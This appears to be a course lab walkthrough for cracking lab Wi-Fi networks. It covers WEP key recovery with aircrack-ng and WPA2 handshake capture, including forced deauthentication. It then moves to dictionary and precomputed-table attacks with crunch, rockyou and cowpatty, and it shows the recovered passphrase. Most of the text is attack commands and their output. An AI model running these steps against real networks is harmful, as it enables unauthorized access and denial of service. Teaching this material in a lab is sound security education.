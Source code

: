# ES1 WEP

```bash
# Install software
sudo apt install aircrack-ng

# get interface name
# for me is wlp3s0
# when see wlp3s0, change this with your interface name
ip addr

# kill process that can be cause interferences with monitor mode 
sudo airmon-ng check kill
# start monitor mode
sudo airmon-ng start wlp3s0

# start sniffing
# you need to provide the interface namen in monitor mode that is
# your_interface_name + "mon"
sudo airodump-ng wlp3s0mon
# if you want to monitor a single channel 
# use '-c' with the number of channel
# try with -c 6 for this exercise
sudo airodump-ng wlp3s0mon -c 6

```

Our target is "RSI-Wep"

![WEP01Scan](./wep_01_scan.png)

with BSSID = `00:1E:E5:28:65:49`. With this information we can start another time `airodump` in order to capture data. 

```bash
$ sudo airodump-ng -c 6 --bssid 00:1E:E5:28:65:49 -w wep.cap wlp3s0mon
```

and the situation is like this.

![alt text](./image-1.png)

We need to generate some traffic in order to capture the right amount of IV (Initialization Vector) and retrive the password. To do that we use `aireplay-ng` that allowq us to send ARP requests from hosts to the access point. 

```bash
# -3 -> mode that send arp traffic at the hosts connected to acces point
$ sudo aireplay-ng -3 wlp3s0mon -b 00:1E:E5:28:65:49

```


![alt text](./image-2.png)


```bash
# In another terminal, when you capture #Data > 500, you can start to try decrypt password
$ sudo aircrack-ng ./wep.cap

```

After few minuts o just a few seconds (if you have an host that generate an huge data traffic, like a video stream).
You decrypt the password!
![alt text](./image-9.png)

end then you can stop `airdump` and escape from monitor mode

```bash
sudo airmon-ng stop wlp3s0mon
```

To go deep: https://www.aircrack-ng.org/doku.php?id=simple_wep_crack


# ES2 WPA2

Our target now is `RSI-Sicurissima`. 

## Capture handshake
```bash
$ iw dev
$ sudo airmon-ng start wlp3s0
$ sudo airodump-ng wlp3s0mon
```
![alt text](./image-4.png)

```bash
# Start capture
$ sudo airodump-ng -c 6 --bssid  00:1E:E5:28:65:4B  -w wpa.cap wlp3s0mon
# In other terminal trigger the arp traffic like before in es1
$ sudo aireplay-ng -0 2 -a  00:1E:E5:28:65:4B  wlp3s0mon
```

![alt text](./image-5.png)

```bash
$ sudo airmon-ng stop wlp3s0mon
```

## Get dictionary
Once the WPA2 handshake has been captured, we can start cracking the password

One of the things that we will try out with breaking through WPA and WPA2, is by using a dictionary attack. Dictionary attack is a technique to break through an authentication mechanism by trying to figure out it’s decryption key or passphrase by trying out hundreds, thousands or even billions of likely possibilities. Most vulnerable victims of this attacks are Wi-Fi’s that have their password set to something simple, such as `cat`, `dog`, `airplane`, `football` and so on - like the words in a dictionary. 
We can generate custom dict or we can use wellknow dictionary. 

```bash 
# Generate custom dictionary
# crunch <min_lenght> <max_lenght> charset [-t <pattern> ] -o dictionary.txt
$ sudo crunch 5 8 qwertyuiopasdfghjklzxcvbnm -o dictionary.txt
Crunch will now generate the following amount of data: 1945931761280 bytes
1855785 MB
1812 GB
1 TB
0 PB
Crunch will now generate the following number of lines: 217179671904 
crunch:   0% completed generating output
...

# Get common and widely use dictionary
$ sudo apt install john
$ mkdir /usr/share/rockyou
$ cd /usr/share/rockyou
$ wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

After that, the dictionaries can be found in the `/usr/share/john` and `/usr/share/rockyou` folders, respectively.

## Start bruteforce attack

We can now start the bruteforce attack. We suggest to use `john` and/or `rockyou` dictionary to complete the exercise before the end of the laboratory session

```bash

# /usr/share/john/password.lst
# /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-10.txt
# ./toy_dict.txt
$ sudo aircrack-ng -w ./toy_dict.txt wpa.cap
```

or with our custom dict 

![alt text](./image-8.png)


## Start a Rainbow Table attack
Rainbow Tables are pre-computed tables of hash values that are pre-matched to possible plain text passwords. Rainbow tables are mainly used to crack hashes very quickly.

```bash
$ sudo apt install cowpatty

# with common dictionary
$ genpmk -f /usr/share/john/password.lst -s RSI-Sicurissima -d rainbow.txt
$ sudo cowpatty -d rainbow.txt -r cap/wpa.cap-01.cap -s RSI-Sicurissima 
...
Unable to identify the PSK from the dictionary file. Try expanding your
passphrase list, and double-check the SSID.  Sorry it didn't work out.

# with custom dict
$ echo "nonmicraccheraimai" > dict.txt
$ sudo genpmk -f dict.txt -s RSI-Sicurissima -d rainbow.2.txt

$ sudo cowpatty -d rainbow.2.txt -r cap/wpa.cap-01.cap -s RSI-Sicurissima 
...

The PSK is "nonmicraccheraimai".



```


![alt text](./image-7.png)



